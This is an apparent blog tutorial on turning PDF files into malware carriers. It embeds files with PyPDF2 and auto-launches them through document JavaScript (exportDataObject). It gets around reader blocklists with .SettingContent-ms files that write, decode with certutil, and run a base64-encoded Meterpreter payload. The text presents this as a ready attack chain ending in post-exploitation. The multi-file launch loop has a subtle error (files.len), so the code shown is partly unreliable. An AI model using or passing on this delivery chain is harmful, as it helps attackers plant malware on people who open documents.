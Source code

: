 # *PDF Embedding Attacks*


PDF, or Portable Document Format, is an incredibly complex file format, governed by many standards and semi-standards. Like HTML and CSS, it was primarily designed for document layout and presentation. Also like HTML and CSS, it has been augmented with a JavaScript engine and document API that allows programmers to turn PDF documents into applications - or vehicles for malware.


# *Embedding Files in PDF Documents*

It’s very easy to embed any kind of file in a PDF document. Every document includes the EmbeddedFiles name tree, along with support for collections of files, known as portfolios.

Most PDF libraries provide support for this; we’ll examine PyPDF2, which supports everything we need and is pure Python.

PyPDF2’s PdfFileWriter provides a method called addAttachment which takes a name and some bytes and embeds them as a file in the PDF (docs).

This is how malware is usually concealed in a PDF document - as an embedded file.

# *Opening Files from PDF Documents*

Now that we have a payload embedded in a PDF document, we need to actually open it. The basic method for this is to also embed a script in the PDF document. In our case, we want to add a document level script. This script will execute as soon as the PDF is opened.

Fortunately, PyPDF2 also supports this! We can simply add a JavaScript object with the method addJS, and that JavaScript will be registered to run on the PDF opening.

Our JavaScript payload is pretty simple: we just add a single call to exportDataObject, a function provided by the PDF reader. This function takes an object with 2 parameters:

  - cName, the name of the embedded object, and
  - nLaunch, an instruction as to what the PDF reader should do with the exported object

nLaunch is just an integer, and it has three valid values:

    Prompt the user for a path and save the file there
    Prompt the user for a path, save the file, and ask the operating system to open it
    Pick a temporary location, save the file there, and ask the operating system to open it

That last option sounds great for malware. Assuming we embedded a file called myExploit.exe, we would add the following JavaScript:

this.exportDataObject({
    cName: "myExploit.exe",
    nLaunch: 2,
});

and it would run as soon as the PDF was opened, right? Well, not quite. Unfortunately, there’s a bit more to it; Adobe Reader (and most other readers) will prevent the launch of common executable files. For example, .exe, .js, .vba, and .bat files cannot be opened.
Evading the Blacklist

There are many ways to evade the blacklist, such as Microsoft Word documents with malicious macros embedded in them (read more), but recently, researchers discovered that another kind of file could be used: .SettingContent-ms. As explained by the SpecterOps team, these are just XML documents pointing to specific places in the Windows 10 settings GUI. However, they contain a field called DeepLink which can contain any arbitrary executable which will be run when the SettingsContent-ms file is executed.
Deploying a Payload

Let’s bring this all together. How would we use this in a real attack?

There are a few steps we need to perform in order to get this attack working.
1: Create a Payload

There are many great ways of creating effective payloads. In this case, I’ll assume you have a payload already; my payload of choice is a Meterpreter reverse shell encoded with some type of cloaker.
2: Encode the Payload in Base64

We can use certutil.exe -encode InputFile EncodedFile on Windows or base64 input > output on Linux to encode and decode files with Base64. This will let us more readily insert it where it is needed.
3: Embedded Files

We need to run 3 commands, so we’ll use the above method to embed three files. They will all be valid SettingContent-ms XML, differing only in the DeepLink node.

    PutFile.SettingContent-ms which will echo the Base64 encoded payload to disk at a known path (echo b46c827y... > %APPDATA%\evil.b64).
    Decode.SettingContent-ms which will decode the Base64 encoded payload into an EXE ( certutil -decode %APPDATA%\evil.b64 %APPDATA%\evil.exe)
    Execute.SettingContent-ms which will actually run that file. (%APPDATA%\evil.exe)

4: Scripts

Now, we need a single script which will run all of these:

var files = ["PutFile", "Decode", "Execute"];
for (var i = 0; i < files.len; i++) {
	this.exportDataObject({
		cName: files[i] + ".SettingContent-ms",
		nLaunch: 2,
	});
}

5: Pwnage!

Now we have our Metasploit payload running on the target! Congratulations, time to move into post-exploitation.
Alternative Methods

Another method would be to use Reflective PE Injection, converting a PowerShell process into the process for our executable. To learn more about this, check out this post.
Conclusion

PDF files are extremely complex, and the applications that read them tend to be old and full of cruft, designed without security in mind. A black-listing method will never be effective in eliminating all dangerous files, as we can see here. This technique requires no exploits; we just ask the OS to run a file for us and it does so!

Last updated Jun 8 2023 
